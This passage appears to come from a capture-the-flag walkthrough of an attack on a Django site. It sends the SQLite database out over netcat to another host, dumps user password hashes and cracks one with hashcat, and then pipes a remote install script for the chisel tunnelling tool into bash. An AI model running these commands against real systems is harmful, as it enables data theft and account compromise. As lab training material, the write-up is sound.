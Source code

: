 ```powershell
root@8b39a559b296:/home/site# nc -w 3 10.2.37.37 11342 < db.sqlite3
root@8b39a559b296:/home/site#
```

> **SQLite Database Enumeration Phase**
> 

`sqlite3 db.sqlite3`

```powershell
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions

sqlite>  select * from auth_user;
1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|

sqlite> 
```

> **Hash Cracking Phase**
> 

`nano userhashes.txt`

```powershell
pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=
pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=
pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=
pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=
```

`hashcat -a0 -m 10000 userhashes.txt /usr/share/wordlists/rockyou.txt`

```powershell
testing:lala12345
```

> **Port Tunneling for SSH & Login Brute Force Phase**
> 

`curl https://i.jpillora.com/chisel! | bash`
